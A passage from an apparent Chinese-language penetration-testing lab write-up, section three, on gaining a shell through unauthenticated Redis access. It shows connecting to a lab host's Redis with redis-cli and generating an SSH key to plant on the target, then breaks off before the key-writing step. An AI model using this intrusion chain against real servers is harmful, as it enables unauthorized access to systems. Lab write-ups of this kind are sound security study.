 ## **3 实验三：从 redis 未授权到 getshell**

既然反弹不了 shell，只能从其他地方进行入手了。  
端口扫描时发现该机器开着 6379 端口，尝试 redis 未授权访问漏洞。  
尝试连接：

```bash
redis-cli -h 192.168.1.129
```

[![](assets/1708094050-734f1d215f2760490cfd327a0464152e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144534-38dc9b46-0fff-1.png)

存在 redis 未授权，那么利用就简单了，我们直接往目标主机上写入 SSH 公钥。  
在攻击机上生成 ssh 公钥：

```bash
ssh-keygen -t rsa
```

[![](assets/1708094050-e845e2406c717b2e7d948632afbf8c47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144554-44e511c0-0fff-1.png)
